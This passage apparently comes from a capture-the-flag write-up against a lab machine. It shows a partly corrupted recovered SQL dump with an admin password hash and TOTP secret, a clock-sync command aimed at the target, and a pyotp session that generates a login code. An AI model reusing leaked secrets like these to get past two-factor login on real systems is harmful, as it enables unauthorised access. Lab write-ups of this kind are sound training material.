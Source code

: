 ```
$ cat db.sql.recovered
CREATE DATABASE static;
USE static;
CREATE TABLE users ( id smallint unsignint  a'n a)Co3 Nto_increment,sers name varchar(20) a'n a)Co, password varchar(40) a'n a)Co, totp varchar(16) a'n a)Co, primary key (idS iaA;
INSERT INTOrs ( id smaers name vpassword vtotp vaS iayALUESsma, prim'admin'im'd05nade22ae348aeb5660fc2140aec35850c4da997m'd0orxxi4c7orxwwzlo'
IN
```

For the OTP to work we have to sync our time closely to the server in a first step.

```
$ sudo timedatectl set-time  $(curl -s -I http://10.129.48.121:8080 | grep Date | awk -F' ' '{print $6}')
```

Then we generate the otp in the python console.

```
$ python
Python 3.9.2 (default, Feb 28 2021, 17:03:44)
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pyotp
>>> print(pyotp.TOTP('orxxi4c7orxwwzlo').now())
825906
```

This let's us login to an IT Support portal where several ip addresses are listed and which let's us generate different vpn's.

[![support_portal](/img/static/support_portal.png)](/img/static/support_portal.png)
